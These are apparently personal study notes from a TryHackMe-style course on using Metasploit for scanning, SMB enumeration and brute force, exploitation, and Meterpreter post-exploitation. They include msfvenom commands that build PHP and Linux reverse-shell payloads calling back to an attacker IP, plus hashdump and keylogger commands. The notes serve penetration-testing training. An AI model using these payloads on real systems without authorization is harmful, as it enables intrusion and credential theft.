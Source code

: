 ### Port Scanning 
- first enter `msfconsole`
- ```bash
  search portscan
  ```
- list potential port scanning modules
- ```bash
   use #
   ```
- in this case, we are using `scanner/portscan/tcp`
- ```bash
  show options
  ```
    - CONCURRENCY: Number of targets to be scanned simultaneously.
    - PORTS: Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
    - RHOSTS: Target or target network to be scanned.
    - THREADS: Number of threads that will be used simultaneously. More threads will result in faster scans.
- nmap works inside the msfconsole
___
### UDP service Identificaftion
- `scanner/discovery/udp_sweep`
- this module will allow you to quickly identify services running over the UDP (User Datagram Protocol). This module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.
- ```bash
  setg RHOSTS [target_ip]
  ```
  - set the target ip globally
- ```bash
    run
  ```
  - runs the scanner
___
### SMB Scans
- SMB (Server Message Block) is a network protocol used for sharing files, printers, and other resources between computers.
- `scanner/smb/smb_version` or `scanner/smb/smb_enumshares`
- find SMB server details and list shared resources
- `http_version` module will find what http version, must change RPORT to the one you want to scan 
- `smb_login` brute forces the login
  - must `show options` and set up the wordlist file and the username then run
___
### Metasploit Database
- in an actual penetration testiing engagement, there will be likely have several targets. Metasploit has a database function to simplify project management
- ```bash
  systemctl start postgresql
  ```
- ```bash
  msfdb init
  ```
- launch `msfconsole`
- ```bash
  db_status
  ```
  check database status
- ```bash
  workspace
  ```
  list avaiable workspaces
  `-a` add a workspace
  `-d` delete a workspace
  EX:
- ```bash
  workspace -a tryhackme
  ```
- ```bash
  workspace [name]
  ```
  to switch between workspacaes
- ```bash
  workspace -h
  ```
  list avaiable options    
- `db_nmap` runs nmap and import the results to the metaspolit database
- resulted information can be retrived from `hosts` and `services`. the `-h` flag will give more options
___
### Example using the database
- pick a vulnerability scanner
- ```bash
  hosts -R
  ```
  uses the data we collected from db_nmap to import the RHOSTS value
- `run` or `exploit`
- ```bash
  services -S [service name]
  ```
  `-S` parameter to search for services in the envirement
  
  - HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
  - FTP: Could allow anonymous login and provide access to interesting files. 
  -  SMB: Could be vulnerable to SMB exploits like MS17-010
  - SSH: Could have default or easy to guess credentials
  -  RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used. 
___
### Vulnerability Scanning
- Identifiying a 'low hanging fruit' aka easily indentifiable and exploitable vulnerabilities that could allow us to gain a foothold on a system.
- thus, getting good at scanning and finding out what the target system's services are running and use the search function to search for exploits etc...
- `info` on any modules to have a better understanding of its use and purpose
___
### Exploitation
- Background the Session:
After getting initial access to a system, you "background" the current session to make it inactive but still accessible for upgrades.
`ctrl+z`

- Upgrade to Meterpreter Shell:
The `sessions -u [session ID]` command upgrades the current session to a Meterpreter shell.
Meterpreter is a powerful post-exploitation tool included with Metasploit. It gives you advanced capabilities like file searching, data collection, and system control.

- Check for Sessions:
Use `sessions` to list all available sessions. Here, session ID 2 now runs the Meterpreter shell.

- Switch to the Upgraded Session:
The command `sessions -i 2` interacts with session ID 2.

- Search for File:
Use `search -f [file]` to look for the file on the compromised system. It finds and gives you the file path.

- Read the File Content:
Use cat with double quotes around the file path to display the content

- `windows/gather/hashdump`
- needs to set to a meterpreter session to work
___
### Msfvenom
- replaced Msfpayload and Msfencode, allows you to generate payloads
- allow you to access all payloads available in the Metasploit framework. In many different formats too (PHP, exe, dll, etc...)

```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
1. `-p php/reverse_php`: Specifies the payload type. In this case, it's a PHP-based reverse shell.
  - `msfvenom -l payloads`: lists all available payloads
  - `msfvenom --list formats`: lists all avaiable output formats

2. `LHOST=10.0.2.19`: The attacker's IP address where the reverse shell will connect.

3. `LPORT=7777`: The port on the attacker's machine that the reverse shell will connect to.

4. `-f raw`: Specifies the output format. raw means the payload will be written in plain PHP code.

5. `> reverse_shell.php`: Redirects the generated payload into a file named reverse_shell.php.

___
### Example of a basic step for msfvenom (reverse shell exploit)
1. attacker creates a payload 
EX: 
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.115.52 LPORT=8888 -f elf > rshell.elf
```
2. the target must have that `rshell.elf` file on their machine (by upload or downloading from the target system etc...)
3. use `exploit/multi/handler` to receive incoming connection from the reverse shell file of the target machine
4. target excutes the `rshell.elf` file
5. we're in
___
### Meterpreter
- it runs on the target system but is not installed on it
- it runs in memory and not on its disk of the target system
- it will be seen as a process and not a file
- it encrypts with the server where metasploit runs, so if the target does not decrypt the encrypted traffic (ex: HTTPS) coming in and out, IPS and IDS solutions will not able to detect it
- `getpid` in meterpreter will get the process id of meterpreter
- will establish an encrypted TLS channel with the attack's system
- most antivirus software will detect it
- `help` for commands in meterpreter
___
### some common meterpreter commands that I don't recall right away but will probably need to use
- `Migrate`: can migrate to a different process (like word.exe, notepad.exe) and act like a keylogger, some versions will also offer `keyscan_start`, `keyscan_stop`, `keyscan_dump` right out of the box
- `hashdump` list content of the SAM database
- `search` locate files
- `shell` will launch a command-line shell on the target system
- `load` additional tools
- 











